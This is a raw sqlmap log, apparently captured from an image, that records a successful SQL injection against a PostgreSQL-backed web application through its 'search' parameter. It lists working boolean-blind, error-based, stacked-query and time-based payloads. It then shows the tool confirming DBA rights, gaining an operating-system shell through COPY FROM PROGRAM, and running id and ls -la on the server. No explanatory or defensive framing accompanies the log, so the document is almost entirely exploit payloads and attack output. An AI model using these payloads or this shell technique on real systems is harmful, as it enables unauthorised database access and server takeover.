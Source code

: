 ```bash
[21:49:32] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=hastur' AND (SELECT (CASE WHEN (7267=7267) THEN NULL ELSE CAST((CHR(110)||CHR(79)||CHR(104)||CHR(68)) AS NUMERIC) END)) IS NULL-- CbRO

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=hastur' AND 5008=CAST((CHR(113)||CHR(112)||CHR(107)||CHR(107)||CHR(113))||(SELECT (CASE WHEN (5008=5008) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(118)||CHR(118)||CHR(113)) AS NUMERIC)-- MjRn

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=hastur';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=hastur' AND 1622=(SELECT 1622 FROM PG_SLEEP(5))-- kNKY
---
[21:49:32] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 19.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[21:49:32] [INFO] fingerprinting the back-end DBMS operating system
[21:49:33] [INFO] the back-end DBMS operating system is Linux
[21:49:33] [INFO] testing if current user is DBA
[21:49:34] [INFO] retrieved: '1'
[21:49:34] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[21:49:34] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id 
do you want to retrieve the command standard output? [Y/n/a] n
[21:49:41] [INFO] retrieved: 'uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)'
os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] n
[21:49:48] [INFO] retrieved: 'total 92'
[21:49:49] [INFO] retrieved: 'drwx------ 19 postgres postgres 4096 Sep  7 01:00 .'
[21:49:49] [INFO] retrieved: 'drwxr-xr-x  3 postgres postgres 4096 Feb  3  2020 ..'
[21:49:49] [INFO] retrieved: 'drwx------  6 postgres postgres 4096 Feb  3  2020 base'
[21:49:49] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Sep  7 01:03 global'
[21:49:49] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_commit_ts'
[21:49:50] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_dynshmem'
[21:49:50] [INFO] retrieved: 'drwx------  4 postgres postgres 4096 Sep  7 01:00 pg_logical'
[21:49:50] [INFO] retrieved: 'drwx------  4 postgres postgres 4096 Feb  3  2020 pg_multixact'
[21:49:50] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Sep  7 01:00 pg_notify'
[21:49:50] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_replslot'
[21:49:51] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_serial'
[21:49:51] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_snapshots'
[21:49:51] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Sep  7 01:00 pg_stat'
[21:49:51] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_stat_tmp'
[21:49:51] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_subtrans'
[21:49:52] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_tblspc'
[21:49:52] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_twophase'
[21:49:52] [INFO] retrieved: '-rw-------  1 postgres postgres    3 Feb  3  2020 PG_VERSION'
[21:49:52] [INFO] retrieved: 'drwx------  3 postgres postgres 4096 Feb  3  2020 pg_wal'
[21:49:53] [INFO] retrieved: 'drwx------  2 postgres postgres 4096 Feb  3  2020 pg_xact'
[21:49:53] [INFO] retrieved: '-rw-------  1 postgres postgres   88 Feb  3  2020 postgresql.auto.conf'
[21:49:53] [INFO] retrieved: '-rw-------  1 postgres postgres  130 Sep  7 01:00 postmaster.opts'
```